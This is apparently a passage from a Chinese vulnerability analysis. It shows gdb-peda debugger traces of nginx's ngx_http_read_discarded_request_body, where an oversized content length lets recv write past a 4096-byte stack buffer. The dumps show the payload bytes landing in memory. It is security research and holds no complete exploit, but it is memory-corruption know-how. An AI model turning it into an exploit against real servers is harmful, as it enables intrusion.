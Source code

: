 ```
EBX: 0x83f7838 ("HTTP310:@b304|?b324%?b274325?bL337?b306,ab36025606b")
ECX: 0xa8afed92 
EDX: 0xfdffbbff 
ESI: 0xbfc6a31c --&gt; 0x0 
EDI: 0x841ba78 --&gt; 0x8403ac8 --&gt; 0x83f7838 ("HTTP310:@b304|?b324%?b274325?bL337?b306,ab36025606b")
EBP: 0x83f7fe2 --&gt; 0xc1404900 
ESP: 0xbfc6a2d0 --&gt; 0x0 
EIP: 0x807b452 (&lt;ngx_http_read_discarded_request_body+113&gt;:mov    DWORD PTR [esp+0x8],ecx)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
   0x807b44d &lt;ngx_http_read_discarded_request_body+108&gt;:mov    ecx,0x1000
=&gt; 0x807b452 &lt;ngx_http_read_discarded_request_body+113&gt;:mov    DWORD PTR [esp+0x8],ecx
Legend: code, data, rodata, value
652        n = r-&gt;connection-&gt;recv(r-&gt;connection, buffer, size);
```

注意一下ngx_min函数调用前的content_length_n的值，在比较时ecx存放后8位，edx存放前8位，随后会将ecx的值交给size，这个值是个极大值，比4096大很多，随后会进行recv，这时候接收可以接收一个超过buffer大小4096的数据，造成栈溢出。



```
gdb-peda$ ni
[-------------------------------------code-------------------------------------]
   0x807b45a &lt;ngx_http_read_discarded_request_body+121&gt;:mov    DWORD PTR [esp],eax
=&gt; 0x807b45d &lt;ngx_http_read_discarded_request_body+124&gt;:call   DWORD PTR [eax+0x10]
Guessed arguments:
arg[0]: 0x8403ac8 --&gt; 0x83f7838 ("HTTP310:@b304|?b324%?b274325?bL337?b306,ab36025606b")
arg[1]: 0xbfc6a31c --&gt; 0x0 
arg[2]: 0xa8afed92 
[------------------------------------stack-------------------------------------]
0000| 0xbfc6a2d0 --&gt; 0x8403ac8 --&gt; 0x83f7838 ("HTTP310:@b304|?b324%?b274325?bL337?b306,ab36025606b")
0004| 0xbfc6a2d4 --&gt; 0xbfc6a31c --&gt; 0x0 
0008| 0xbfc6a2d8 --&gt; 0xa8afed92 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0807b45d652        n = r-&gt;connection-&gt;recv(r-&gt;connection, buffer, size);
gdb-peda$ ni
[----------------------------------registers-----------------------------------]
ESI: 0xbfc6a31c ("9e8d8fbadefbd9b9bffae9aaac9addfac8ffccc9a998cafee8a9ecbebcbcffec9aed9bRduGkRAiLkyCyQhOEKNOzvHJdgKvWBCREHrVtCWlrpKklSOhAJEkkqMHrjbjnFzlQNnnjFLsfGOcLWsHIajzlxxDTUoHoQBZpDbRqNpMzbMUVbOzEvrkCORulMEECElSfQ"...)
[-------------------------------------code-------------------------------------]
   0x807b45d &lt;ngx_http_read_discarded_request_body+124&gt;:call   DWORD PTR [eax+0x10]
=&gt; 0x807b460 &lt;ngx_http_read_discarded_request_body+127&gt;:cmp    eax,0xffffffff
[------------------------------------stack-------------------------------------]
0000| 0xbfc6a2d0 --&gt; 0x8403ac8 --&gt; 0x83f7838 ("HTTP310:@b304|?b324%?b274325?bL337?b306,ab36025606b")
0004| 0xbfc6a2d4 --&gt; 0xbfc6a31c ("9e8d8fbadefbd9b9bffae9aaac9addfac8ffccc9a998cafee8a9ecbebcbcffec9aed9bRduGkRAiLkyCyQhOEKNOzvHJdgKvWBCREHrVtCWlrpKklSOhAJEkkqMHrjbjnFzlQNnnjFLsfGOcLWsHIajzlxxDTUoHoQBZpDbRqNpMzbMUVbOzEvrkCORulMEECElSfQ"...)
0008| 0xbfc6a2d8 --&gt; 0xa8afed92 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
654        if (n == NGX_ERROR) `{`
gdb-peda$ x/30x 0xbfc6a31c
0xbfc6a31c:0x643865390x616266380x626665640x39623964
0xbfc6a32c:0x616666620x616139650x613963610x61666464
0xbfc6a33c:0x666638630x396363630x383939610x65666163
0xbfc6a34c:0x396138650x656263650x636263620x63656666
```
